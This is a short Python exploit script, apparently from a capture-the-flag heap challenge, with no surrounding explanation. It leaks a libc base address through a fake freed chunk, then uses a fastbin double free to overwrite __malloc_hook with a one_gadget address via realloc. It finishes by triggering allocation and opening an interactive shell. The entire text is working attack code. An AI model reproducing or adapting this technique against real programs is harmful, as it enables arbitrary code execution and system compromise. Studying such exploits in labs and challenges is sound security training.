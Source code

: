 ```python
add(0x60)#3
add(0x60)#4
#=====================================================================
payload =p64(0)+p64(0x91)
payload =payload.ljust(0x90,b'\x00')
payload+=p64(0)+p64(0x21)+p64(0)*2
payload+=p64(0)+p64(0x21)
name(payload)
free(5)
name(b'a'*0x10)
io.recvuntil(b'a'*0x10)
base=u64(io.recv(6).ljust(8,b'\x00'))-0x3c4b78
success("base=>"+str(hex(base)))
mhook=base+libc.sym['__malloc_hook']
realloc=base+libc.sym['realloc']
one=[0x4527a,0xf03a4,0xf1247][0]+base
free(0)
free(1)
free(0)
add(0x60,p64(mhook-0x23))
add(0x60)
add(0x60)
payload=b'\x00'*(0x13-8)+p64(one)+p64(realloc+8)
add(0x60,payload)
io.sendlineafter(b"> ",b"1")
io.sendlineafter(b"> ",str(0x60).encode())
io.interactive()
```











